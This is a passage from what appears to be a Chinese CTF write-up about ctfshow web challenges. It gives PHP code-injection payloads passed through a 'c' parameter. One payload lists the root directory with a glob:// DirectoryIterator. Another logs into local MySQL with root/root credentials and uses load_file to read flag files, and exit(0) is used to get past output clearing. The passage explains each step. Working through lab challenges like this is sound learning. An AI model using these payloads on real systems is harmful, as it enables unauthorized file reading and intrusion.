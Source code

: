 
UAF被ban

那我们只能调用进程来读取文件

```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
```

解释一下

```php
$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
 
设置 dbh 为 pdo对象  内容为 mysql 本地 数据库命 登入弱口令
 
foreach($dbh->query('select load_file("/flag36.txt")') as $row)
 
使用 query 执行命令 读取 flag36.txt文件内容 作为 row变量
 
echo($row[0])."|"; 将查询第一列输出
 
$dbh = null; 关闭数据连接
 
catch (PDOException $e) {echo $e->getMessage();exit(0);}
 
如果出现异常 那么就输出异常 并且退出
 
 
exit(0); 绕过缓冲区清理
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2351a4b3a20305f503dbf266adae6398.png" alt="" style="max-height:181px; box-sizing:content-box;" />


## web76

```php
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/435a290573136aa8dc38506904a45ffa.png" alt="" style="max-height:204px; box-sizing:content-box;" />




```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36d.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
```
